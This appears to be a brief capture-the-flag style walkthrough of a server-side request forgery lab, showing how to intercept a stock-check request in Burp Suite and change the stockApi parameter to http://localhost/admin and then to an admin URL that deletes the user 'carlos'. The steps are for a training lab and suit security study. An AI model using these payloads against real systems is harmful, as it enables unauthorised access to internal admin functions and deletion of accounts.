

# Basic SSRF against the local server

## This lab has a stock check feature which fetches data from an internal system.

## To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

---

### step 1

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin

forword request

inspect carlos delete

href="/admin/delete?username=carlos"

### step3

now again

---

### step 1 but add ''/admin/delete?username=carlos

go to product and check stock intercept them into burpsuite

### stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D3

change to

### stockApi= http://localhost/admin/delete?username=carlos

forword request

lab solved
